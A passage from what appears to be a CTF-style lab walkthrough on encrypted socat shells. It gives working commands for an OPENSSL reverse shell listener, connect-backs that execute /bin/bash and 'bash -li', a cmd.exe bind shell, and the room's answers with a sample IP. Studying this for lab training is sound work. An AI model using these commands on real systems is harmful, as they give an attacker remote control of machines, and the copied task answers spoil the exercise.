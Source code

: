 cat shell.key shell.crt > shell.pem
```
3. Now, when we set up our reverse shell listener, we use:
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
This sets up an OPENSSL listener using our generated certificate. ```verify=0``` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the ```certificate MUST``` be used on whichever device is listening.

4. To connect back, we would use:
```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

---

The same technique would apply for a ```bind shell```:

```Target```:
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
```Attacker```:
```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
Again, note that even for a ```Windows``` target, the certificate must be used with the listener, so ```copying the PEM file across for a bind shell is required```.

The following image shows an ```OPENSSL Reverse shell``` from a ```Linux``` target. As usual, the ```target is on the right```, and the ```attacker is on the left```:

---
OPENSSL Reverse Shell
![img](/assets/img/wts08.png)

---

This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

---

1. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

Answer :
```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:'tty',raw,echo=0
``` 
2. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

Answer : 
```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

---

Task 8  Common Shell Payloads (33:57)
---

We'll soon be looking at generating payloads with ```msfvenom```, but before we do that, let's take a look at some common payloads using the tools we've already covered.
```